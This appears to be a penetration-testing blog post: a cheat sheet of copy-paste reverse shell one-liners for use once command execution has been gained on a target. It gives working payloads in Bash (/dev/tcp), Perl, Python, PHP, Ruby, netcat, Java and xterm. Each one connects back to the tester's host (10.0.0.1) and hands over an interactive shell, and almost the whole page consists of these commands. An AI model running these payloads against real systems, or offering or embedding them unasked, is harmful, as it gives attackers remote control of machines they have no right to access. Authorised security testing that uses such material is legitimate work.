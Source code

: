 <p>If you&#8217;re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you&#8217;ll probably want an interactive shell.</p>
<p>If it&#8217;s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.</p>
<p>Your options for creating a reverse shell are limited by the scripting languages installed on the target system &#8211; though you could probably upload a binary program too if you&#8217;re suitably well prepared.</p>
<p>The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute &#8220;/bin/sh -i&#8221; with &#8220;cmd.exe&#8221;.</p>
<p>Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they&#8217;re quite short lines, but not very readable.</p>
<h3>Bash</h3>

<pre>bash -i &gt;&amp; /dev/tcp/10.0.0.1/8080 0&gt;&amp;1</pre>
<h3>PERL</h3>

<pre>perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/bin/sh -i");};'</pre>

<h3>Python</h3>
<p>This was tested under Linux / Python 2.7:</p>
<pre>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'</pre>
<h3>PHP</h3>
<p>This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn&#8217;t work, try 4, 5, 6&#8230;</p>
<pre>php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'</pre>

<h3>Ruby</h3>
<pre>ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i &lt;&amp;%d &gt;&amp;%d 2&gt;&amp;%d",f,f,f)'</pre>
<h3>Netcat</h3>
<p>Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don&#8217;t support the -e option.</p>
<pre>nc -e /bin/sh 10.0.0.1 1234</pre>
<pre>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2&gt;&amp;1|nc 10.0.0.1 1234 &gt;/tmp/f</pre>

<h3>Java</h3>
<pre>r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5&lt;&gt;/dev/tcp/10.0.0.1/2002;cat &lt;&amp;5 | while read line; do \$line 2&gt;&amp;5 &gt;&amp;5; done"] as String[])
p.waitFor()</pre>

<p>[Untested submission from anonymous reader]</p>
<h3>xterm</h3>
<p>One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.</p>
<pre>xterm -display 10.0.0.1:1</pre>
<p>To catch the incoming xterm, start an X-Server (:1 &#8211; which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):</p>
<pre>Xnest :1</pre>
<p>You&#8217;ll need to authorise the target to connect to you (command also run on your host):</p>
<pre>xhost +targetip</pre>